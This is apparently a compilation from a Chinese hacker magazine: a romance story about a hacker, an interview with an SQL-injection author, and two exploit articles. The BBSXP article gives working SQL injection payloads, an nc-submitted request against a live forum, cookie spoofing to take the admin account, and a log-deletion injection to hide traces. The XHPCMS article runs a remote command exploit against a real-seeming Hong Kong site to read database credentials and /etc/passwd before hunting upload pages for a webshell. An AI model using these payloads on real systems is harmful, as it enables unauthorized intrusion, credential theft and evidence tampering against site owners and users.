“啊啊，是吗？”

“嗯”

……

我告诉了她我那些过去的爱情和学校里的一些我以为很有趣但别人可能觉得很无聊的事情，她没有嫌我啰嗦，很认真地听，给我回复。有很多人在给她发视频请求，她没有理会，默默地专注于我这里。我有些感动。在谈话中，我知道了她在读高中，喜欢文学和绘画。家乡有辽野的果林和满池碧水的鱼塘，春天的时候，田野里会开满香气扑鼻的野菊花……

谈到我的职业时，我告诉她，我是一个半桶水的黑客。她不懂，我说就好像是古代拿剑的侠客，不同的是，黑客只存在于网络上，他们中间有好人，也有坏人，但都有丰富的计算机知识……

菊儿静静地听我叙述，然后问我是属于哪一类。我告诉她，心情不好的时候，我就做坏事；心情好的时候，就做好事。她对我说，大概所谓的坏人都是如此吧，因为好人从不做坏事，不过既然你是半桶水，那罪过也就减轻一半吧。

我笑了，但没有辩解。事实上我也不知道自己到底是属于哪一类人。我不断地入侵各种站点，享受欲攻敌人首页的快乐，验证自己所学的知识。为了一个游戏，或者一部电影，我就会轻易地出手，没有丝毫的道德约束，长时间地迷失在网络上。有过一个现实中的女朋友，但是很快被抛弃。

“我要去睡觉了，你也要早点休息……”，菊儿那天最后一句话是这样说的。她在视频里微笑着对我挥了挥手，而我笑着给她回了一个飞吻。

那一刻，我觉得很温暖，感觉外面的冰雪大概也在融化吧……

以后的每个周末我们都会在网上遇见，然后就会聊好几个小时。和菊儿聊天成了我上网唯一的嗜好。她给我发来很多自己的绘画作品，我给她发一些好听的英文歌。有时候，两个人还会在 QQ 游戏里默契地配合。正在我习惯了这种生活的时候，突然有一个周末，她不上线了，没有留下任何的信息。

时间一晃又过了好几个月，我每次上线都很想再看到她，可是每一次都以失望告终。我甚至怀疑那个女孩是不是老天爷在那个冬季赐予我的天使。但是看着她依旧黑白的头像，我告诉自己，她会出现的。心情烦躁的时候，就去黑站，盲目地去突破着一个个程序的漏洞，去获得主机的所有权限，然后就好像一个皇帝，得意地管辖着自己侵占来的领地。

有时候，一些朋友会找到我，给我钱，让我帮他们黑站。无聊的时候，我答应他们，成功之后会拿到一个信封，里面有我的酬劳。我的生活黑白颠倒，黑夜比白天要多一些。我看不到我的未来，我也不知道这样继续下去自己会不会腐烂掉。我感觉到了脚底有一股隐隐的寒意。

夜凉如冰，在这个标榜着温暖的春季。我喝了些酒，在网吧里又一次通宵过夜，打开熟悉的 QQ。当我看到那个我关注了很久也连续黑白了很久的头像终于亮出一抹美丽的彩色时，我不敢相信自己的眼睛，又揉了一下。我的眼睛有些湿润，是菊儿。

我从来未曾这样想念过一个女孩儿，纵使那从前的女友。菊儿的出现就仿若一个出现在我生命中的天使，拯救了一个在冬季无家可归的网络混混。我的脑海里突然又记起了几个月前那句温暖的话：“我陪你聊天可以吗。”

几乎同时，我们跟对方打了招呼。我急切地询问她为什么这么久都没上线，她告诉我学业很忙，所以一直没有时间上网。不过我还是很高兴她还记得我。两个久别重逢的朋友，一直聊了好久，我突然脑袋一热，说我想去看她。QQ 的那头突然没有了话语，直到过了好久，她发过来一句：“是不是真的。”

“如果你同意，我可以现在就去买票！”我的语气很坚决。在迷乱而充满了困惑的生命中，我没有了其他的渴望，只想真正见她一面。这个女孩点燃了我心里久违的火焰。

又过了好久，可能她在想着什么，但最终还是同意了。我得到了她所在城市的地址和一个电话号码。虽然在显示 IP 的 QQ 上我已经知道那个地址，但是她发过来的一刻，我还是非常激动。

我拿出手机，手心里由于紧张居然冒出汗来。拨了两次才拨通了那个号码，电话里是一个十八九岁女孩脆生生的声音：“喂……”

她的声音仿佛是雨打芭蕉，语转而轻，我呆住了。

“为什么不说话，是峰吗？”

“是，你是菊儿？”

“呵呵……”她的笑，上次是看，而这次，是真真正正地听到了。我们聊了一下见面的细节，她又告诉了我行车的路线等等。我去火车站买票，到附近的网吧又和她聊了会。

直到她最后说了那句：“待到花开，我等君来。”

人们都说网络上发生的恋情太过虚幻，而缘分却总能让两个人不期而遇。有人费尽心机，而最后依然什么都没有得到；有人无心插柳，却获得了令人难以想象的爱情。

我拿着我的包踏上了南下的火车，告别了从来没有离开过的这个城市，告别了没有白天黑夜的网络生活，没有丝毫的留恋。因为将要迎接我的，是一种崭新的开始。

菊儿没有手机，联系她只能通过她家的电话。由于她父母不允许她和其他的男孩通电话，所以她只能在家里没人的时候和我聊一聊。

一路上，我不停地想着与菊儿见面的样子。旅途虽然寂寞，但是一想起马上就要见到菊儿，心里就非常开心。

很快，我到了江苏吴江这个人称“人间天堂”的江南水乡。这里的水很清，到处充满了吴侬软语的味道，不愧是人间天堂。我来到和菊儿约定的地点，却没有看到她的身影。我耐心地等着，时间一分一秒地走着，五个小时过去了，我怀着满腹的期待与不安，继续坚持。可是她还是没有来……

天色很快就暗了下来，我终于体会到望穿秋水不见伊人是什么样的心境了。没有其他的办法，我找了一间旅馆住下来。我给菊儿的家里打了一个电话，电话响了好多声之后，一个中年男人接了。我本来想说什么，可还是挂掉了，心情烦闷至极。

难道这一切都只是个玩笑？网恋真的那么不可靠？我努力让自己消除这个念头。我一直在我们约好的那个地方守了两天，慢慢失去了信心。

终于，我买了回北京的火车票。我又走了一遍那个约定的地点，一个中年男人蹲在那里抽烟，看到我的时候，他站了起来。

“你是不是叫峰？”

“是的，你怎么知道？”我很奇怪。

“我是菊儿的父亲。”中年男人仔细地打量着我，缓缓说道。

我一下子愣住了。他的脸很苍老，递给我一根烟，我摆了摆手没有接。他知道菊儿和我的事情。由于不知道我的火车到站时间，菊儿在我来吴江的前一天就在这里等我了，到了很晚都没回去。后来她父亲找到她，把她硬生生地拉了回去关了起来。她再次跑出来的时候，由于紧张和慌乱，被一辆车撞伤了腿。在医院里她还不断地吵着要过来，他父亲没有办法，亲自来到这里找我。

“她在哪个医院，我要去找她。”听完她父亲的话，我鼻子有点酸，眼泪就快掉下来了。

“如果你真的为她好，就不应该去见她！”那个中年男人的情绪有点激动。

“为什么？”

“你知道吗？她今年高三，正是高考的重要阶段，而你这个时候出现，会给她带来什么，你知道吗？”

“不错，我一定要去见她！”

“砰。”我的脸上重重地挨了一拳，站立不稳，倒在了地上。我的脸上火辣辣地疼了起来。菊儿的父亲满脸怒容看着我，眼睛好像要冒出火来。

“你知道吗！你还好意思和我说这个，我女儿和我吵架，她受伤，都是因为你！”他的话像钉子，一根根地插入我满怀着虚幻憧憬、已经千疮百孔的心上。他的手指由于激动而微微地颤抖着。

我站不起来，脑袋里直冒金星，嘴里有一股隐隐的血腥味，好像流血了。菊儿的父亲看了看我，回头准备离开。可我依旧不肯死心：“等一等！”我叫住了他，他停下脚步看着我。

我从包里拿出一个画册，是菊儿以前发给我的画，我全部打印了出来，做成了一个画册，而且上面有我给菊儿留的心里话，让她好好学习，将来能实现自己美好的愿望。

“希望你能把这个送到她手里。”

“不行，办不到！”菊儿的父亲粗暴地推开了我的手。

“叔叔！我求你了。”我跪了下来，男儿膝下有黄金，可那只是未到绝望的时候。菊儿的父亲惊讶地看着我，嘴唇动了动没有说话。街上很多的行人也不解地看着我。

“我没有其他的要求，就请你把这个转交给她吧。”我流着泪，举起了那本画册。

菊儿的父亲一把接过画册，头也不回地走了。只留下了孤独而伤心的我，在异乡，看着手中的那缕从数千里外牵来的、追寻着网络爱情的风筝线断开了，风筝消失得无影无踪。

两个月后，我在北京一家网络公司里认真地做着一份网络工程师的工作，下班时看见 QQ 上有个熟悉的头像给我留言。

“再过一个礼拜我就高考了，我一定会上北京的学校，到时候就可以去看你了……”是菊儿！我安抚好激动的情绪，慢慢地写了回复。

“待到重阳日，还来就菊花……”菊儿，我等你！

## 黑客故事：“注入”专家


“注入”专家？有没有搞错？看到这名字，读者们一定不会奇怪。注入作为一门技术，现在已成了黑友们的主要手法之一：旁注、直接注入。提起注入就不能不提到小竹。本次采访在预约的时候，小竹说，自己从来没认为自己是一个黑客，因为技术人员一样研究注入！他的《注入天书》正如一部天书一样，在指导着刚刚步入注入大门的菜鸟和已经在注入上成绩显赫的老鸟们。诚然，注入是门技术，关键是我们如何利用。

而我们的采访也不是每期都采访黑客。只要是某方面技术突出，或开发了某个影响深远的软件，或者在某个事件上有特殊影响的，都在我们的采访之列（如 05 年泄露娱乐圈明星联系方式者）。好了，不多说了，来看看今天我们采访的主人公——小竹！

小行：小竹，你好。先给读者介绍下你自己吧！不要吝惜言语啊！

小竹：你好，大家好，我是小竹。看过《SQL 注入天书》、用过或下载过 NBSI 的朋友应该都认识我了吧。其实我并不觉得自己是什么黑客，只认为我自己是一个优秀的 Web 开发人员，从开发中总结出 SQL 注入的经验，第一个系统化地整理了这方面的知识并公开出来。而已。

小行：嗯，网上我看过你的作品，知道你原来是 NB 联盟的人，能不能给我们介绍下你们组织原来的情况及当时的发展方向？

小竹：NB 联盟是一个从事 Web 开发的团队，在 ASP 和数据库方面有着非常深入的经验，在安全方面仅限于研究脚本漏洞，从而达到完善自己系统而已。由于 2003 到 2005 年注入非常流行，而且在我发布《注入天书》和 NBSI 之前，很多网站上都存在着一些脚本漏洞，在达到一定知名度后，修补各种漏洞也成了我们的研究和业务范围之内。

> NB 联盟是令人向往的一个纯技术组织。就在刚才，我特地在网上查了下 NB 联盟的作品集，看了后收获很大。地址：https://www.aspnet.com/54nb/ ，有关技术的读者可以去学习下，会有很大帮助。

小行：每次的采访，我都会问对方是从什么时候开始接触网络安全技术的！这次也不例外，呵呵！

小竹：应该是在 2003 年吧。之前我自己写的程序也有一些漏洞，后来偶然发现了，对网络安全的兴趣便一发不可收拾。加上我原来 SQL 的基础比较好，所以很快就成为别人眼中的“高手”了。当然，NB 联盟中还有几个朋友比我还早认识到 SQL 注入，只是没太深入研究。

小行：我们知道只会用些工具的只能被称为 Tools Hacker。所以很多人开始学习有技术含量的东西。而注入火得很早，且现在还一直成为很多网络 Hacker 赖以玩的强力法宝。作为注入这一块，外行看热闹，内行看门道。给读者介绍下它的入门方法吧！

小竹：其实注入的火离不开它的成功率，很多所谓的溢出漏洞，只是一种成功率比较低的方法。在系统打完所有补丁之后，只有 0DAY（未发布的漏洞）才有可能获得权限。但 0DAY 别说是普通人，就算是高手也难于获得。拥有 0DAY 的人一般不会发布出来，因为这种漏洞，你发布的时候，也就是这个漏洞被堵上的时候。而 SQL 注入则不同，只要懂一点 SQL 基础，都可以自己学习，可以说是比较“平民化”的方法。至于入门的方法，《SQL 注入天书》里已经有很详细的解说了，最主要的还是搞清楚原理，那样你入门就会快很多了。

小行：刚刚接触网络安全的菜鸟，他若想尽快地把自己 Tools Hacker 的帽子给摘了，开始学习注入技术，那么他最起码需要先学习些什么才能入门注入这一块呢？

小竹：首先，既然名字叫 SQL 注入，当然 SQL 就是一个必不可少的基础了，包括 SQL 的入门知识、基础语法，还有 SQL Server 和 Access 的一些常用函数和存储过程等等。其次，ASP 和 .Net 的知识会在你入门的时候给你一些帮助；第三，除了技术方面之外，学习态度也是非常重要的一点，有什么问题自己先动脑，实在想不出再查 Google。不要一有问题就到论坛发帖问人，这对于培养独立思考能力是非常有帮助的。

小行：我们知道你最拿手的是 Web 开发，能不能简单介绍下关于 Web 开发及你在这方面的成果啊！

小竹：我学 Web 开发学得比较早，从 ASP 刚出炉的时候就开始学了，大概有七八年了吧。后来一直比较忙，到最近才有时间开始学 .Net。用 ASP+COM+SQL Server 已经做过很多项目，包括 ERP、进销存、电子商务等比较大型的系统。成果也比较多，可以说现在在 ASP 上基本没什么问题可以难得到我了。顺便打打广告，如果有公司要请 ASP 和 SQL 高级开发人员的话，可以考虑考虑我啊，呵呵。

小行：你的《SQL 注入天书》现在基本各个技术站点都转载了，能不能介绍下你当时写这个的时候花费了多长时间？我们知道研究一门技术到有了成熟的想法并付诸笔端成功地写出来是需要一段时间的。

小竹：陆陆续续写了近一个星期吧，当时网上已经有一些注入文章。不知道为什么，表达都比较没条理性，虽然看得出有些文章的作者水平比我更高，但逻辑非常混乱，让人看了一头雾水。在看了那么多别人的文章之后，我决定写一篇从入门者到高手都能从文中获益的文章。因为我写文章的逻辑性还是比较好的，所以在发表之后，很多看过的人都说这是一篇他们真正能看懂的文章，反应非常热烈。连新浪、天极、CSDN 等网站都转载了，几乎成了学 SQL 注入和 ASP 编程的必看文章。

小行：经典的 1=1、1=2 测试法判断是否能注入很经典也很神奇。现在也被我们的很多小菜们奉为神器型的法宝。而我查了下文献，能找到最早记录就是在你的《注入天书》里，当时这个是经过很多测试得到的？

小竹：是的，之前我们也经常用 ' 号去测试，但经常有不准确的情况发生。我记得以前 NB 还有人写了个 SQL 注入的测试工具，就是用 ' 号去测试的，由于经常误判，被人评价得很垃圾。后来我从经验中总结出 1=1、1=2 的测试方法，这个思想贯穿于整个 NBSI 的开发过程，在无数次的验证后，证实了这确实是一个非常准确的测试方法。

小行：现在纯粹搞技术研究的黑客技术人员已经少之又少。无论是老牌的黑客技术站点还是新起的黑客技术站点都充斥着利益的色彩。真正能得到免费精神的地方少之又少。你认为这个是中国黑客技术界的退步还是进步？为什么这么认为呢？

小竹：应该是一个进步吧，但这个进步显得有点底气不足，过于含糊。收费在很多天真的朋友看来，应该算是一种退步，可能是出于“黑客”向来就是以神秘的面孔出现，所以大家把他们偶像化了。但是大家不可否认，如果一直免费的话，开发人员哪来的精力去升级、去维护一个不断完善的软件或者网站呢？黑客也是一个普通人，也跟大家一样要吃饭工作甚至养家，如果你从这个方面来看，一些适当的收费，应该也在情理之中。

小行：在中国有人曾经或有意或无意地给中国的黑客分为几代几代，如果你把自己定义为一名黑客的话，你认为你是第几代呢？而你最崇拜的黑客是谁？

小竹：呵呵，我本来就对这个分代的说法持有异议，每一代都有不同的环境和方法。比如第一代，在那个全身都是漏洞的 Windows 年代，“第一代黑客”的方法肯定特别有效，但到了现在，他们的方法也行不通了。据我所知，不少第一、第二代黑客现在常用的，还是 SQL 注入。当然，我还是非常尊敬他们的。我最崇拜的黑客？在我二十岁左右的时候，我是见一个崇拜一个的，哈哈。至于现在，早就过了崇拜偶像的年龄了。

小行：进入了 21 世纪，中国的黑客圈我觉得很冷。除了每年的节日某些人偶尔组织对日、对台的无技术含量 DDoS 攻击，基本很少听见有什么大的事件。对此你是怎么看的？是中国黑客界在冬眠还是逐渐走下坡路？

小竹：其实黑客技术是用来做什么的，我在以前也经常想这样的问题，不过在我的文章和工具发布两年后，我很高兴地看到，国内很多网站的安全性已经比两年前有非常大的提高，注入工具也在慢慢地失去它的作用。其实就像一个医生一样，看到病人少了，心里有点酸，但更多的还是高兴。毕竟在提高中国网站的安全性方面，自己做了不少的贡献。说完了这个，再看看小行的问题，也不是什么问题了吧！对了，我表达的意思就是，与其去 DDoS 别人，做一些损人又损己的事，不如把时间花在提高自己水平的事上面，你说对吗？

小行：如果大家想就 Web 开发及注入方面咨询你，能通过什么联系方式找到你呢？

小竹：通过 QQ 就可以了，我的 QQ 号码是 48814。不过我要说明一点，如果你提的问题是我在文章中写过的，或者 Google 很容易搜索得到的，那就恕我不作回复了。

小行：感谢小竹抽出时间接受我们的采访。祝你在注入上再出新作！

小竹：不客气。

不晓得上期杂志的这个栏目有没有让你很感兴趣，希望如此吧！这期我们接着上期来，把目光投得更远，把战火烧到国外。你按照我们提供的漏洞利用方法，不论是脚本的，还是系统的，在国外我们一样可以玩，而且玩得更放心（不怕找上门来）！自然也不能忘了，这个月似乎比较平静，发布的几个系统漏洞的利用条件都还不成熟，让我们继续期待；但是脚本方面，BBSXP 还是很积极前来报道了，一个尚未发布的最新版本漏洞，让我们眼睛一亮。大家睁大眼睛，想想你对这个栏目有什么意见和建议，可以通过 no.hack.it@gmail.com 和我们联系，让我们一起把战场扩得更大一些。

## 漏洞首发

## BBSXP 7.0 新漏洞攻破管理员权限

寂寞的刺猬

- 从本文你可以学到
- BBSXP 6.0 的最新漏洞
- 作者分享代码和经验

```vb
fString=Replace(fString,CHR(10),"<br>")
fString=Replace(fString,CHR(13),"")
fString=Replace(fString,CHR(22),"&#22;")
fString=Replace(fString,CHR(32),"&#32;")
fString=Replace(fString,CHR(34),"&#34;")
fString=Replace(fString,CHR(39),"&#39;")
...
HTMLEncode=fString
End Function
```

三月初，偶发现了 BBSXP 6.0 SQL 版的版主提权漏洞，但因为没有官方 BBSXP 的版主权限，当时就在自己搭建的环境内做了一番测试，也不知道官方网站是否存在此漏洞？对此，偶一直耿耿于怀！正好这几天无事可做，就重新读了一下上次放弃的那些文件，想不到，奇迹真的发生了！

## 一、本地 BBSXP6 测试

先给大家看一段源码，在“Online.asp”（在线情况）中有这样一段代码：

```vb
Key=HTMLEncode(Request.Form("Key"))
Find=HTMLEncode(Request.Form("Find"))
if Key<>"" then SqlFind=" where "&Find&"='"&Key&"' and eremite=0"
Sql="select * from [BBSXP_UsersOnline] "&SqlFind&" order by lasttime Desc"
Rs.Open Sql,Conn,1
```

在 SQL 中执行的有两个参数“Key”和“Find”，这两个参数都是经过“HTMLEncode”的过滤再引入到 SQL 语句中，唯一不同的是，“Key”加入了单引号，而“Find”则直接进入到 SQL 中了！这难道不是漏洞吗？不过，还是要看一下 BBSXP 的自定义 HTMLEncode 函数，才能下结论！

```vb
Function HTMLEncode(fString)
fString=Replace(fString,"'","&#39;")
fString=Replace(fString,"<","&lt;")
fString=Replace(fString,">","&gt;")
...
End Function
```

哇！分号、波折号、空格及 TAB 空格、单引号及双引号等等全部注册在案，不过注入所用到的 And、=、()、Select 这些字符未被列入黑名单，还是有一线希望的！先用一个简单的语句进行测试！打开本地的 BBSXP6，点击面板中的“在线情况”（Online.asp 是可以匿名访问的），如图 1 所示，在右下角有一个查询框，其中有“用户”和“IP”两种查询条件，点右键查看此处的源代码。


图 1 在线查询页面

```html
<form action="Online.asp" method="POST">
<select name="Find">
<option value="UserName">查询用户</option>
<option value="IP">查询IP</option>
</select>
<input size="15" value="<%=Key%>" name="Key">
<input type="submit" value="确定">
</form>
```

- 数据采用 POST 提交，接收数据 ASP 为 Online.asp。
- “Find”采用下拉选项提交方式，有两个固定值“UserName”和“IP”。
- “Key”采取文本提交，值为文本框内输入字符。

和我在版主提权中的方法一样，更改“Find”选项提交为文本提交，代码如下：

```html
<form action="http://127.0.0.1/bbsxp6/Online.asp" method="POST">
<input size="35" value="" name="Find">
<input size="15" value="" name="Key">
<input type="submit" value="确定">
</form>
```

然后，保存为 HTML 格式，打开后的界面如图 2 所示。


图 2 本地保存为 HTML 后打开

在第一个文本框内输入如下测试语句：(1=1)and(2)，查询条件中输入 2，然后点“确定”执行查询，返回的页面和初次打开时一样，显示在线用户。更改第一个文本框的内容为：(1=2)and(2)，提交后返回的页面是无在线用户，呵呵！1=1 查询方式成功！但问题也跟着来了，“HTMLEncode”过滤了空格，要想猜解数据库中的内容，就要用到 Select 语句，而字符之间的空格就成了一个大问题，如何隔开字符呢？想啊想啊……终于想起牛人们提到的一种方法，在 SQL 数据库环境内，可以用 /**/ 代替空格。上面的代码加入空格后的表达式就是：(1=1)/**/and/**/(2)，将其中的 1=1 改为注入语句，然后就可以根据返回的页面来判断猜解正确与否！比如，猜解管理员 admin 的 id 语句就是：

```sql
(0x610064006D0069006E00=(select/**/username/**/from/**/bbsxp_users/**/where/**/username=0x610064006D0069006E00)/**/and/**/id/**/between/**/1/**/and/**/10)/**/and/**/2
```

其中的 0x610064006D0069006E00 是 admin 的 16 进制字符串，此语句用于查询 admin 的 id 是否处于 1 至 10 之间，如果是则会显示在线名单，否则显示在线为空！按照这样的返回页面，逐步缩小 between 数值的范围，就可以查询到管理员 admin 的 id 值了。有了 id（假设其值为 12），接下来就可以猜解其 MD5 了！语句如下：

```sql
(12=(select/**/id/**/from/**/bbsxp_users/**/where/**/id=12)/**/and/**/ascii(substring(userpass,1,1))/**/between/**/48/**/and/**/57))/**/and/**/2
```

需要说明的是，BBSXP6 的 MD5 是由数字和大写英文字母组成，数字的 ASCII 范围是 48-57，大写字母的范围是 65-90。按照这种规律，分别替换 between 后的数值为这两类，然后再逐步缩小 between 之间的值，就可以猜出密码第一位的 ASCII 值了。

按照第一位的猜解步骤，就能够猜出第二位的 ASCII 值了，依次类推，只要有恒心，32 位 MD5 值也是能够猜出来的！

看到这儿，心急的朋友可能要放弃了，这样的破解法，还不要努力几个小时才能完成！是啊！偶也感觉很累，于是就想到了一种方法——“暴错”！在其中输入如下字符：

```sql
(1=(select/**/userpass/**/from/**/bbsxp_users/**/where/**/id=12))/**/and/**/2
```

因为 userpass 字段为字符串型，而 1 为数值型，在 SQL 执行查询时，因两者类型不一，就会出现错误，而 SQL 太热情了，会把错误的原因也说出来，如图 3 所示，管理员 admin 的 MD5 就暴露在我们面前了！


图 3 直接暴出 admin 的 MD5 值

## 二、实测官方 BBSXP7

前面所测试的版本是 BBSXP6，不知官方网站是否存在此漏洞？在其下方，偶看到的是这样的标志：“Powered by BBSXP 7.00 Alpha 1 SQL”，前两天还是“BBSXP6”，这么快就升级到“BBSXP7”了，真是快啊！在网站转了两圈也没找到 BBSXP7 的源码下载处，索性直接测试吧！和在本机的步骤一样，打开“在线情况”，修改其源代码，再将 POST 地址更改为：http://bbs.yuzi.net/ViewOnline.asp，先用“(1=1)/**/and/**/2”测试，返回的结果如图 4 所示。

来源错误！看来官方加入了来源地址验证，用本地 HTM 方式提交是行不通的。既如此，就采用抓包提交的方式！启动“WinSock Expert”，监听 BBSXP 论坛的“ViewOnline.asp”窗口，然后在“在线查询”页面下方的查询中输入数字“2”，点“确定”，抓到了如下 POST 数据：

```http
POST /ViewOnline.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/vnd.ms-excel, application/x-shockwave-flash, */*
Referer: http://bbs.yuzi.net/ViewOnline.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: bbs.yuzi.net
Content-Length: 19
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: skins=Default; ASPSESSIONID0AOSRRSR=GNDAFHFNDPGDIMNPANJCCLQIO

Find=UserName&Key=2
```

将这些数据保存在“bbs.txt”中，修改其提交数据 Find=UserName&Key=2 为以下字符：Find=(1=1)/**/and/**/2&Key=2。并将“Content-Length”后的“19”更改为“28”，然后在 CMD 窗口中执行如下命令：

```bash
nc.exe -vv bbs.yuzi.net 80 <bbs.txt >bb.htm
```

当 CMD 窗口返回“<http> open”字样时，如图 5 所示，说明数据已经提交成功。打开 NC 目录中的“bb.htm”，其内所显示的记录和直接打开的 BBSXP“在线情况”是一样的，嘿嘿嘿！官方网站也存在此漏洞！

接下来就用暴错的方式，暴出“yuzi”的 MD5 值，所提交的 POST 值如下：


图 4 在官方网测试的时候提交语句却显示错误


图 5 本地用 NC 提交修改后的抓包信息成功

```text
Find=(1=(select/**/userpass/**/from/**/bbsxp_users/**/where/**/id=91500))/**/and/**/%26key=2
```

91500 是 yuzi 的 id 值，得到其 ID，还要归功于 BBSXP7 新增的 id 显示。在提交之前，还要更改 “Content-Length” 的值为 “91”…（注：提交字符串长度的计算方法：将提交数据保存到一个新的文本文档内，然后查看其属性，其“大小”就是提交数据的字符数）。一切就绪，用 NC 提交，稍候打开 bb.htm，如图 6 所示，哦！yuzi 的 md5 值被揭露出来了！


为了方便新手的测试，偶用 VB 写了一个小程序，选择某用户的 ID、用户名或邮箱名中的任一项就可爆出该用户的 MD5 值，运行的效果如图 7 所示！


有了 MD5 值，接下来就可以用 “Cookies” 欺骗来登录论坛了，对于 “Cookies” 欺骗，偶比较习惯用桂林老兵的 “MyBrowser” 浏览器，用此打开 bbsxp 论坛，首先用一个普通账户登录，注意，此处要选中 “记住密码”，然后，修改 “Cookies” 中的 “Userpass” 和 “UserName” 为 “yuzi” 的 MD5 值及名称，如图 8 所示，再点“连接”刷新当前页面，如图 9 所示，嘿，现在偶已变身为 yuzi 了，呵呵，管理员！有很高的权限哟！


接下来，偶带着激动的疑问对版主提权漏洞进行了测试，采取 “WinSock Expert” 抓包，“NC” 提交提权数据的方式，竟然登录进了 BBSXP 论坛，啊啊！BBSXP7 中也存在版主提权漏洞。偶当时发现这个漏洞后，觉得此漏洞需版主以上权限才能运行，所以未通知 Yuzi，而四月份的《黑客手册》当时正处于上市阶段，估计 BBSXP 官方还未注意到此漏洞，所以才让偶有机可乘了！本想借用数据库差异备份的方法再搞一个 WebShell，但未能成功，也就放弃了，毕竟偶是来测试，不是搞破坏的！呵呵！天色也不早了，先把 Yuzi 的密码更改回去，再用 NC 提交一段清除日志的语句，然后闪人！

```text
ForumID=4&ThreadID=7010&IsDel=1&IsGOOD=1&IsLocked=1&menu=BatchSpecialTopic&SpecialTopic=';delete+from+BBSXP_Log+where+ipaddress='111.222.111.222';--&AinForumID=
```

## 三、修补方法

```text
if Key<>empty then SqlFind=" where "&Find&"='"&Key&"' and eremite=0"
```

修改为：if Key<>empty then SqlFind=" where '"&Find&"'='"&Key&"' and eremite=0"。在 Find 参数两端加入单引号！这样，就算提交来的 Find 参数中包含 Select、And 等语句，也是作为字符串来处理，即使放其进入 SQL 内，也不会有所作为了！

> 注：本文仅供技术交流，请勿用于非法途径，否则后果自负！

（文章测试用到的软件 WinSock Expert、MyBrowser、ASCII 转换、ASCII-zh 器、NC 以及作者自己写的 BBSXP 利用工具 BBSXP6-7.exe，都已经收录在光盘中）

当初拿到这篇文章时，小编为之一震：BBSXP 又出漏子啦！一看出漏子的版本还是 7.0 的，还以为作者搞错了，我记得才发布到 6.0 嘛！编完才知道，这个 7.0 是官方现在自己用的，还没发布出来，看来还没发布就被发现漏洞还真的比较郁闷，不过官方很快也对其修补为 7.00 Beta1 版本，还算勤快；本文巧妙地利用一个单引号就完成一次伟大的注射，十分精彩！获得管理员权限后就可以利用以前的办法来拿 WebShell 了！

## XHPCMS 漏洞新体验——渗透夺回 WebShell

EXP，拿来看了下，明白了漏洞的所在，现在做些测试。

## 一、寻找目标网站

这步大家都很熟悉了，主要是用搜索引擎来搜索目标网站的关键字，这里我们用的关键字是：powered by XHP CMS，用 Google 搜了下，可以看到约有 30,000 项符合查询结果。如图 1 所示。

在上面搜到的结果中随便选取一个作为我们测试的目标吧，偶就选个香港的站做目标吧！http://XXX.ilinktech.com.hk/~simon/xhp_0.5/index.php

“simon/xhp_0.5/index.php，那么按照上面的参数来对号入座，这里先 Ping 下目标网站得到其 IP 是 203.XXX.XXX.31，所以 host=203.XXX.XXX.31；path=/~simon/xhp_0_5/；cmd=cat ../../dbconfig.php，这样组合起来就是 php E:\www\www\test\XHP.php 203.XXX.XXX.31 /~simon/xhp_0_5/ cat ../../dbconfig.php，其作用就是读取网站的配置文件 dbconfig.php，得到如图 3 所示的效果：”


图1 用 Google 搜索目标网站


图2 执行 php E:\www\www\test\XHP.php 得到的使用帮助

不多说了，比如我这里是安装在 C:\php 目录下的，那么在 C:\php 文件夹下有个 PHP.EXE 的程序，我们就可以用它在 CMD 下来运行 PHP 脚本了，如图 2 所示，我在 C:\php\ 下执行 php E:\www\www\test\XHP.php（E:\www\www\test\XHP.php 是这个 EXP 的路径）。看到提示如下：

```text
Usage: php E:\www\www\test\XHP.php host path cmd OPTIONS
host: target server (ip/hostname)
path: path to XHP
cmd: a shell command
Options:
 -p[port]: specify a port other than 80
 -P[ip:port]: specify a proxy
Examples:
 php E:\www\www\test\XHP.php localhost /xhp/ cat ../../dbconfig.php
 php E:\www\www\test\XHP.php localhost /xhp/ ls -la -p81
 php E:\www\www\test\XHP.php localhost /xhp/ ls -la -P1.1.1.1:80
```

其中有几个参数在这里说明一下：host 是目标主机的 IP 或者网站域名；path 是 XHP 的安装路径；cmd 是要执行的命令；Options 中 -p[port] 则是指定网站的端口，默认是 80；-P[ip:port] 用来设置代理服务器。

## 三、实例解析 EXP 利用

上面我们选的网站是 http://XXX.ilinktech.com.hk/


图3 读取 dbconfig.php 的内容

可以看到我们成功地读到了 dbconfig.php 的内容如下。

```php
<?php
define('XHP_DB_HOST','localhost'); //MYSQL数据库所在的主机地址
define('XHP_DB_USER','test1'); //连接数据库的用户名
define('XHP_DB_PW','123test1'); //连接数据库的用户密码
define('XHP_DB_NAME','test1'); //安装XHP的数据库名
define('XHP_TBL_PREFIX','xhp_'); //安装XHP的表前缀
?>
```

上面 // 后面是我加的注释，从我们读到网站的配置文件的内容里，可以看到 XHP_DB_HOST 为 localhost，因为 localhost 是代表本机，故可以知道目标网站和 MYSQL 数据库在同一主机上；又看到 XHP_DB_NAME 为 test1，就了解到其存在一个名是 test1 的数据库，从 XHP_DB_NAME 为 test1，XHP_DB_PW 为 123test1 可以知道其存在一个名为 test1，密码是 123test1 的用户。我们接着来执行下面这个命令：`php E:\www\www\test\XHP.php 203.194.148.31 /~simon/xhp_0_5/ ls -la`，用来查看下当前目录下的文件，得到结果如图 4 所示。


图4 执行 ls -la 查看当前文件夹

接着来，执行 `php E:\www\www\test\XHP.php 203.194.148.31 /~simon/xhp_0_5/ hostname` 来看下目标主机的计算机名，如图 5 所示，结果为 XXX.ilinktech.com.hk。


好了，到这里我们了解了不少的敏感信息，下面再来看看能不能得到主机的账户名，提交 `php E:\www\www\test\XHP.php 203.194.148.31 /~simon/xhp_0_5/ cat /etc/passwd` 得到如图 6 所示的结果，账户哗啦啦地出来了。接下来就可以用流光之类的工具来分离账户跟密码了，只是偶不喜欢，就不做了！


## 四、利用漏洞直接上传木马

也不晓得是谁说的：没有得到 WebShell 的过程就不算完美！好，我们下面就来看看怎么获得这个目标的 WebShell。查看下代码，看到其存在上传文件的地方：

```text
http://XXX.ilinktech.com.hk/~simon/xhp_0_5/inc/htmlarea/plugins/FileManager/manager.php

或

http://XXX.ilinktech.com.hk/~simon/xhp_0_5/inc/htmlarea/plugins/FileManager/standalonemanager.php
```

